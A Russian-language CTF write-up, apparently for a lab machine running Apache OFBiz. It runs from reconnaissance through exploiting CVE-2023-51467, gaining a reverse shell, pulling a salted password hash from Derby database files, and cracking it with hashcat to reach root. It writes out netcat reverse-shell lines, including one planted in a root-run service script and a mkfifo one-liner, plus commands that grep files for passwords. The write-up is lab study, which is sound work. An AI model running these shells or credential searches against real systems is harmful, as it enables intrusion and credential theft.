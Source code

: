 Простоя машина на веб.

# Получение флага пользователя

## Этап разведки

Тут стандарно: 
1.  Используем[[Nmap | nmap]] чтобы найти открытые порты, находим стандартные веб-порты
2. Исследуем визуально сайт, в футоре сайта можно было заметить подсказку на технологию [[Apache OFBiz]]. Что могло дать подсказку о возможных путях исследования. (Успешно пропущено))) ).
3. Использование [[gobuster]] для перебора директорий. Стоит отметить, что в данном случае помогли флаги: 
	- -k - для отчключения проверки сертификата.
	- -b - для ингнорирования статусов кодов ответа
4. Нахождение [[URI | uri]] `{{host}}/control` Который выдавал ошибку, но при этом подсказал на технологию [[Apache OFBiz |OFBiz]].
5. Поиск информации по [[Apache OFBiz]] в открытых источниках. Нашел путь `{{host}}/webtools` который переводил на страницу авторизации. На которой была указана версия продука.
6. По версии продукта была найдена [[CVE]] и [[Эксплойт | эксплойт]] к ней, который привводил к 
   [[RCE]]. Эта уязвимость была под номером ***CVE-2023-51467***


## Этап эксплуатации

Перед эксплуатацией, надо было проверить, что эксплойт рабочий, в данном случае, в эксплойте был uri, который позволял проверить наличие уязвимости в продукте.

Сама эксплуатация из разряда скачал - запустил. Поэтому встраеваем в нагрузку [[Revershell (обратная оболочка) | обратную оболочку]]. И получаем доступ к системе.

> [!NOTE] На заметку
> С первого раза обратную оболочку запустить не получилось, команда просто не выполнялясь (наверное). Можно было подумать, что экслойт не рабочей. Но методом перебора была получена нужная нагрузка. 
> 
> ==На будующие:  Прежде чем окрестить эксплойт или технику нерабочей, нужно перебрать как можно больше нагрузок, ибо может на серверве не стоит нужных утилит==

После чего получаем флаг пользователя.

# Получение флага рута
## Этап повышения привелегий

На данной машине этот этап был  сложным, что пришлось прибегнуть к прохождению.

### То что пробовал я

По страндарту начал сбор информации по машине:
- sudo -l
- поиск [[SSH]] файлов
- Использование [[LinPEAS.sh]]

По LinePEAS.sh нашел интересную возможность, которая могла бы теоретически срабоать. Он показал, что можно изменять файл, который запускается с помощью [[systemctl]], сам файл представлял собой [[bash]] файл. Добавив туда, что-то вроде этого: 
```
nc 10.10.10.10 9001 -e sh& # Как варинат добвать еще цикл для продолжения попыток подключения
```

Важно было бы запускать его через `&`, чтобы запустить в фоновом режиме, а на своей машине запустить прослушивание порта, что в теори после перезагрузки машины, можно было получить права root. Так как сервисы запускаются от рута.

### По прохождению

[[Apache OFBiz]] в качестве базы данных использует [[Derby]]. Директорию с Derby я нашел самостоятельно по документации, но предлагают еще такой варинат:
`find / -type d -iname "derby" 2> /dev/null`

После я также нашел хранилилише данных, но там было большое количество файлов, а найти чувстивтельные данные в таком количестве, достаточно труднозатратно. Что использовали в прохожденни:
`find *.dat | xargs grep -a -i "password="` ищим совпадения внутри файлов.


> [!NOTE] На заметку
> Конструкции типа `strings * | grep ` оказались малоэффективными, по сравнению со способом указанным выше

Найдя файл с паролем, и сообствено пароль в захешированном виде,  просто через [[hashcat]] взломать его не получиться, так как он  еще дополнительно модифицировался + использовалась  [[Соль в криптографии | соль]]. Для взлома нужно было найти в исходном коде [[Apache OFBiz]] алгоритм хэширования. И увидить что там base64.


> [!NOTE] На заметку
> В целом если поискать, то есть скрипты которые ломали перебором этот хэш, и можно было не искать в исходном коде.

После получения пароля, можно было с помощью `su` зайти под рутом и получить флаг системы.

# Выводы  и полезные фишки

## Выводы
В целом процесс получения флага пользователя не был особо сложным.
Но повышение привелегий, друго дело, тут в целом можно добавить в методику анализа, что: 
1. Проверить наличиче базы данных у приложения, если она есть, то попробовать получить доступ к ней и поискать чувствительную информацию, например пароль
2. Порой необходимо заглянуть в исходный код, если приложение имеет открытый сходный код, если алгоритм хеширования отличается от стандартного.
3. Если алгоритм хеширование не стандартный, то попробовать найти скрипты для побора, возможно они существуют.

## Работа над ошибками

В целом необходимо чуть больше уделить вниманию криптографии, так как в целом с первого взгялада было не совсем понятно, что не так с хешем.

Изучить подробнее [[hashcat]], т.к как оказалось, он может принимать хэши без файла и с солью, тут было что-то вроде:
`hashcat -a 0 -m 120 <hash>:<salt> /path/to/wordlist`.

Также изучить способы быстрого поиска файлов, например по содержимому, подробнее изучить [[find]], [[xargs]], [[grep]]

Вообще также возможно имеет место, если не получается быстро найти вектор повышения привилегий, то может стоит начать с изучения приложения работающего на сервере, особенно если есть бд.

## Фишки

Узнал про интересный сайт [CyberChef](https://gchq.github.io/CyberChef/), который может пригодиться для быстрого преобразования данных.

Также я для улучшения терминала использую **pty**, вот еще один способ

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <Your_IP> 1337 >/tmp/f`

Прикольный способ, может даже дать более стабильную работу. Можно нажимать <Cntrl + D>, но не контрл + С. Также  работают команда clear.

